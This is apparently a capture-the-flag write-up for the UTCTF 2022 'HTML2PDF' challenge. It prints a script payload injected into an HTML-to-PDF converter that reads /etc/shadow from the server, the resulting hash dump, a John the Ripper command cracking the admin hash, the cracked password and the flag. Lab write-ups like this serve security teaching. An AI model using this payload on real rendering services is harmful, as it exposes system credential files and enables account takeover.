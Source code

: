 ﻿**HTML2PDF Writeup**

**UT CTF 2022**


Chall link:<http://web2.utctf.live:9854/>

In this challenge, whatever we give the html code, we get the result as a pdf form. 

In that page, already the following code is given:

<b>Try Me!</b>

<img src= "<https://hips.hearstapps.com/hmg-prod.s3.amazonaws.com/images/dog-puppy-on-garden-royalty-free-image-1586966191.jpg>">

The above html code contains the <img src> tag, which is used to insert an image. The image will be shown in a pdf format.

This site also contains an admin form. So we will get the flag if we give the proper username and password.

We can get the password through the html code we give. For that we will make a XMLhttprequest.

To read more about XMLHttprequest: <https://www.w3schools.com/xml/xml_http.asp>

XMLHttpRequest is used to request data from the server.

So we will write an html code to get the usernames and passwords from the backend.

<b>Try Me!</b>

<script>

x=new XMLHttpRequest;

x.onload=function()

{

document.write(this.responseText)

};

x.open("GET","file:///etc/shadow");

x.send();

</script>

This is the output that we get for the above code:

root:\*:19052:0:99999:7::: daemon:\*:19052:0:99999:7::: bin:\*:19052:0:99999:7::: sys:\*:19052:0:99999:7:::

sync:\*:19052:0:99999:7::: games:\*:19052:0:99999:7::: man:\*:19052:0:99999:7::: lp:\*:19052:0:99999:7::: mail:\*:19052:0:99999:7::: news:\*:19052:0:99999:7::: uucp:\*:19052:0:99999:7::: proxy:\*:19052:0:99999:7::: wwwdata:\*:19052:0:99999:7::: backup:\*:19052:0:99999:7::: list:\*:19052:0:99999:7::: irc:\*:19052:0:99999:7:::

gnats:\*:19052:0:99999:7::: nobody:\*:19052:0:99999:7::: \_apt:\*:19052:0:99999:7::: systemdnetwork:\*:19062:0:99999:7::: systemd-resolve:\*:19062:0:99999:7::: messagebus:\*:19062:0:99999:7:::

avahi:\*:19062:0:99999:7::: geoclue:\*:19062:0:99999:7:::

dave:$1$M.bfkUDw$jjybwVXMb4waSV0fY5gp0/:19062:0:99999:7:::

john:$1$EPS/Rl3g$5TLupCmddYSibyDaZtZhQ0:19062:0:99999:7:::

emma:$1$iasayt59$U1QnVGaDEJKyps3iHWv2P1:19062:0:99999:7::: WeakPasswordAdmin:$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:19062:0:99999:7:::


The last entry(WeakPasswordAdmin) seems to be more suitable.

Now we need to crack the password. We can do it using ***john the ripper*** tool.

In terminal:

john <(echo 'WeakPasswordAdmin:$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:19062:0:99999:7:::')

Thus we got username: WeakPasswordAdmin

`	            `Password: sunshine

Logging into the admin panel with the above credentials gives us the flag.

Flag: **utflag{b1g\_r3d\_t3am\_m0v35\_0ut\_h3r3}**

